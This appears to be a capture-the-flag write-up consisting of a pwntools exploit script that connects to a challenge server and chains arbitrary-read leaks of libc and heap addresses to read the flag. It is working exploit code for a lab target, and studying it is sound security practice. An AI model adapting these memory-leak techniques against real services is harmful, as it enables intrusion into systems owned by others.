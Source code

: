 # Writeup 1

from pwn import *

p = remote("tcp.sasc.tf", 2200)
#p = process("./chall")
e = ELF("./chall")
l = e.libc

pie_base = 0x4011a6 - e.sym['main'] # PIE disabled => fixed
log.critical(hex(pie_base))
p.recv()
p.sendline(hex(pie_base + 0x404010)[2:])
p.recvuntil(b": ")
libc_base = u64(p.recv(6) + b"\x00"*2) - l.sym['_IO_2_1_stdout_'] # get libc leak
log.critical(hex(libc_base))
pause()
p.recv()
p.sendline(hex(libc_base + 0x203ac0 + 96)) # get main_arena + 96 leak to obtain heap addr
p.recvuntil(b": ")
flag = u64(p.recvuntil(b"\n", drop=True).ljust(8, b"\x00")) + 0x10 # calc flag addr
log.critical(hex(flag))

p.recv()
p.sendline(hex(flag)) # leak flag

p.interactive()

